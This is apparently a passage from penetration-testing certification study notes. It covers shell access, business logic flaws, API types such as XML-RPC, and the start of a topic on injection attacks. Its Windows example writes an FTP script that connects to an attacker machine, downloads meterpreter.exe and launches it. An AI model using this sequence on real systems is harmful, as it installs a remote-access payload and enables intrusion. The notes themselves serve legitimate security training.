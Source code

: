 In Windows, for example, we could create a text file with the lines necessary to launch FTP with it as a script and download Meterpreter from the attacker machine:

```
echo open 192.168.0.101 21 > ftp.txt
echo user >> ftp.txt
echo pass >> ftp.txt
echo binary >> ftp.txt
echo GET meterpreter.exe >>ftp.txt
echo quit >>ftp.txt
ftp -s:ftp.txt
start meterpreter.exe
This will connect to X on port 21
```

This will connect to X on port 21, provide “user” as the username and “pass” as the password, set binary mode for file transfer, and download meterpreter.exe.

There are different methods to upgrade a non-interactive shell to an interactive one. To solve this in Linux, depending on distribution and implementation, it can be as simple as launching bash in interactive mode:
`/bin/bash -i`

### Exploiting Business Logic Flaws
---
***Business logic flaws*** are vulnerabilities that arise from implementation and design issues that lead to unintended behavior. This can be, for example, a poorly implemented method to lock accounts after successive failures to authenticate. If the system fails to lock the account, an attacker might take advantage of this in order to crack passwords by simply employing brute-force. Some of the most common types of services that are exploited due to business logic flaws are APIs.

Application programming interfaces (APIs) are standards for structured machine-to-machine communication. This is frequently used for automation to systematically query a server for particular data, and other similar tasks. If designed or employed incorrectly, they can open the door for an attacker.

Some of the most common APIs include:

- RESTful: API based on REST (Representational state transfer)
- XML-RPC: Extensible Markup Language-Remote Procedure Call
- SOAP: Simple Object Access Protocol

For example, XML-RPC is frequently targeted, and some common cases include an incorrectly secured implementation of it included in WordPress.

The following image shows the results from searching for XML-RPC exploits in a tool called SearchSploit (see topic D - Identify Tools):
![[Pasted image 20240611105918.png]]
*Sample search of XML-RPC exploits using SearchSploit*

## Topic 13C - Plan Injection Attacks
---
> [!note] Exam Objectives Covered
> *2.2 Given a scenario, perform active reconnaissance*
> *3.3 Given a scenario, research attack vectors and perform application-based attacks.*
> *3.5 Explain common attacks and vulnerabilities against specialized systems.*
> 
